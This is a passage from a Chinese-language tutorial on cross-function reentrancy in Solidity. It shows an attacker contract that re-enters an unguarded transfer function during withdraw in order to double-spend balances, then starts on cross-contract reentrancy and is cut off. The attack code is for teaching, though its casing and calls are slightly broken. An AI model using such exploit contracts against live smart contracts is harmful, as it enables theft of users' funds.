 ```
    balances[_to] += _amount;
  }
}
```

在上面的`VulnerableBank`合约中，可以看到转账`ETH`的步骤仅存在于`withdraw`这一个函数之内，而此函数已经使用了重入锁`nonReentrant`。那么，还有什么方法来对这个合约进行重入攻击呢？

请看如下攻击者合约示例：

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "../IVault.sol";

contract Attack2Contract {
    address victim;
    address owner;

    constructor(address _victim, address _owner) {
        victim = _victim;
        owner = _owner;
    }

    function deposit() external payable {
        IVault(victim).deposit{value: msg.value}("");
    }

    function withdraw() external {
        Ivault(victim).withdraw();
    }

    receive() external payable {
        uint256 balance = Ivault(victim).balances[address(this)];
        Ivault(victim).transfer(owner, balance);
    }
}
```

如上所示，攻击者重入的不再是`withdraw`函数，而是转头去重入没有戴锁的`transfer`函数。`VulnerableBank`合约的设计者的固有思路认为`transfer`函数中只是更改 `balances mapping`而没有转账`ETH`的步骤，所以应该不是重入攻击的对象，所以没有给它加上锁。而攻击者利用`withdraw`先将`ETH`转账，转账完成的时候`balances`没有立即更新，而随机调用了`transfer`函数将自己原本已不存在的余额成功转移给了另一个地址`owner`，而此地址完全可以是攻击者的一个小号而已。由于`transfer`函数没有转账`ETH`所以不会持续将执行权交出，所以这个重入只是攻击了额外一次便结束。结果是攻击者“无中生有”出了这一部分钱，实现了“双花”的功效。

那么问题来了：

*如果改进一下， 将合约中的所有跟资产转移沾边的函数都加上重入锁，那是不是就安全了呢？？？*

请看下面的进阶案例...

### 2. 跨合约重入攻击

现在我们的受害者是一个双合约组合系统。第一个合约是`TwoStepSwapManager`, 它是面向用户的合约，里面包含有允许用户直接发起的提交一个swap交易的函数，还有同样是可由用户发起的，用来取消正在等待执行但尚未执行的swap交易的函数；第二个合约是`TwoStepSwapExecutor`, 它是只能由管理的角色来发起的交易，用于执行某个处于等待中的swap交易。这两个合约的 *部分* 示例代码如下：
